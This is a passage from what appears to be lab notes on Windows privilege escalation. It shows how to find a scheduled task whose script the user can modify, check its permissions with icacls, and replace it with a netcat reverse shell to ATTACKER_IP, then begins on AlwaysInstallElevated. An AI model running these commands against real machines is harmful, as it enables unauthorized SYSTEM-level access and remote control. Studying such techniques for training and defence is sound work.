     ```powershell
    schtasks /query /fo LIST /v
    ```
    
    Look for **TaskName**, **Task To Run**, and **Run As User**.
    
    <img width="1387" height="704" alt="Screenshot 2025-08-13 143818" src="https://github.com/user-attachments/assets/1e6b9709-faf9-4c44-beb5-1998c73f6ac0" />
    
2. **Check File Permissions:**
    
    ```powershell
    icacls "C:\path\to\task\file.bat"
    ```
    
    If your user has **F (Full Control)** or **M (Modify)**, you can overwrite it.
    
    <img width="761" height="177" alt="Screenshot 2025-08-13 144203" src="https://github.com/user-attachments/assets/e742e460-8725-4460-8220-145c7a079344" />
    
3. **Replace with Malicious Payload:**
    
    ```powershell
    echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\path\to\task\file.bat
    ```
    
    Or use a **reverse shell** (e.g., PowerShell, msfvenom).
    
4. **Trigger the Task (or Wait):**
    
    ```powershell
    schtasks /run /tn "TaskName"
    ```
    
    If you can’t run it manually, wait for the scheduled time.
    
    <img width="1285" height="178" alt="Screenshot 2025-08-13 144800" src="https://github.com/user-attachments/assets/5a70276e-0edc-4e4f-8090-734a8bcff673" />

5. **Catch the Shell:**
    
    ```powershell
    nc -lvnp 4444
    ```
    
    You’ll get a shell as the user running the task (**taskusr1** in the example).
    
<img width="758" height="367" alt="Screenshot 2025-08-13 144847" src="https://github.com/user-attachments/assets/472e1a8a-7a1d-4715-b252-854b4c1a82b9" />

### **AlwaysInstallElevated (MSI Files as Admin)**

**MSI (Microsoft Installer Package)** is a Windows file format used to install software. Typically runs with the **permissions of the user launching it** (unless configured otherwise).

**Scenario:** Windows allows **any user** to install **`.msi`** files as **SYSTEM/Admin** due to misconfigurations.

**Requirements:**

- **Two registry keys must be set (1 = Enabled):**
    